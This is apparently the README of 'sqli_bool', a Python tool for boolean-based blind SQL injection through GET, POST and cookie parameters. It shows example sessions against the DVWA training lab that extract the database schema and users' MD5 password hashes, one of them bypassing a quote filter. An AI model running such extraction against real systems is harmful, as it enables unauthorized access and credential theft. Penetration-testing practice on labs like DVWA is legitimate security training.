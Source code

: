 # sqli_bool
A simple tool/framework for boolean-based sql injection(GET/POST/COOKIE) 

**sqli_bool是一款用于基于布尔的SQL盲注的简单工具/框架，支持GET方法，POST方法，以及注入点在cookie中的情况**

# 简介

sqli_bool是为了方便手工SQL布尔盲注而开发的小工具/框架，目前支持GET方法，POST方法，以及注入点在cookie中的情况。
其主要目的是辅助手工注入，缩短手工注入的时间。  
使用者需要根据实际情况修改payload和部分参数。  
小工具（的示例）基于dvwa漏洞平台SQL Injection (Blind)关卡开发，如有必要可以用这个关卡进行测试。

# 环境要求

本工具基于python3，使用前请先确保安装了python3

# 使用方法

1 下载源代码，根据实际情况修改sqli_bb_get.py，sqli_bb_post.py和sqli_bb_cookie.py的payload和部分参数   
2 命令行进入源代码所在文件夹（比如sqli_bool）上级文件夹
输入  
python  
\>\>\> from sqli_bool import *  
然后调用各函数即可

# 示例

## 布尔盲注（注入点在url中，cookie包含多个值）

以dvwa漏洞平台SQL Injection (Blind)关卡low等级为例：
  
\>>> from sqli_bool import *    
\>>> CurrentDatabaseGET()       
the name of current database contains 4 characters   
the name of current database is DVWA   
\>>> TablesGET()   
the name of all tables in current database contains 15 characters   
the name of all tables in current database is GUESTBOOK,USERS        
\>>> ColumnsGET('USERS')  
the name of all columns in current table contains 164 characters   
the name of all columns in current table is   USER_ID,FIRST_NAME,LAST_NAME,USER,PASSWORD,AVATAR,LAST_LOGIN,FAILED_LOGIN,USER,CURRENT_CONNECTIONS,TOTAL_CONNECTIONS,ID,USERNAME,PASSWORD,LEVEL,ID,USERNAME,PASSWORD   
\>>> ContentGET('USERS','USER','PASSWORD')  
the content contains 196 characters   
the content is ADMIN^5F4DCC3B5AA765D61D8327DEB882CF99,GORDONB^E99A18C428CB38D5F260853678922E03,1337^8D3533D75AE2C3966D7E0D4FCC69216B,PABLO^0D107D09F5BBE40CADE3DE5C71E9E9B7,SMITHY^5F4DCC3B5AA765D61D8327DEB882CF99  

## 布尔盲注（注入点在POST报文请求体中，cookie包含多个值，单引号过滤绕过）

以dvwa漏洞平台SQL Injection (Blind)关卡medium等级为例：

\>>> from sqli_bool import *   
\>>> CurrentDatabasePOST()    
the name of current database contains 4 characters    
the name of current database is DVWA   
\>>> TablesPOST()  
the name of all tables in current database contains 15 characters  
the name of all tables in current database is GUESTBOOK,USERS  
\>>> ColumnsPOST('USERS')  
the name of all columns in current table contains 164 characters  
the name of all columns in current table is   USER_ID,FIRST_NAME,LAST_NAME,USER,PASSWORD,AVATAR,LAST_LOGIN,FAILED_LOGIN,USER,CURRENT_CONNECTIONS,TOTAL_CONNECTIONS,ID,USERNAME,PASSWORD,LEVEL,ID,USERNAME,PASSWORD  
\>>> ContentPOST('USERS','USER','PASSWORD')  
the content contains 196 characters  
the content is   ADMIN^5F4DCC3B5AA765D61D8327DEB882CF99,GORDONB^E99A18C428CB38D5F260853678922E03,1337^8D3533D75AE2C3966D7E0D4FCC69216B,PABLO^0D107D09F5BBE40CADE3DE5C71E9E9B7,SMITHY^5F4DCC3B5AA765D61D8327DEB882CF99    

## 布尔盲注（注入点在Cookie头中，cookie包含多个值）  

以dvwa漏洞平台SQL Injection (Blind)关卡high等级为例：  

\>>> from sqli_bool import *  
\>>> CurrentDatabaseCOOKIE()  
the name of current database contains 4 characters  
the name of current database is DVWA  
\>>> TablesCOOKIE()  
the name of all tables in current database contains 15 characters  
the name of all tables in current database is GUESTBOOK,USERS  
\>>> ColumnsCOOKIE('USERS')  
the name of all columns in current table contains 164 characters  
the name of all columns in current table is    USER_ID,FIRST_NAME,LAST_NAME,USER,PASSWORD,AVATAR,LAST_LOGIN,FAILED_LOGIN,USER,CURRENT_CONNECTIONS,TOTAL_CONNECTIONS,ID,USERNAME,PASSWORD,LEVEL,ID,USERNAME,PASSWORD  
\>>> ContentCOOKIE('USERS','USER','PASSWORD')  
the content contains 196 characters  
the content is   ADMIN^5F4DCC3B5AA765D61D8327DEB882CF99,GORDONB^E99A18C428CB38D5F260853678922E03,1337^8D3533D75AE2C3966D7E0D4FCC69216B,PABLO^0D107D09F5BBE40CADE3DE5C71E9E9B7,SMITHY^5F4DCC3B5AA765D61D8327DEB882CF99  
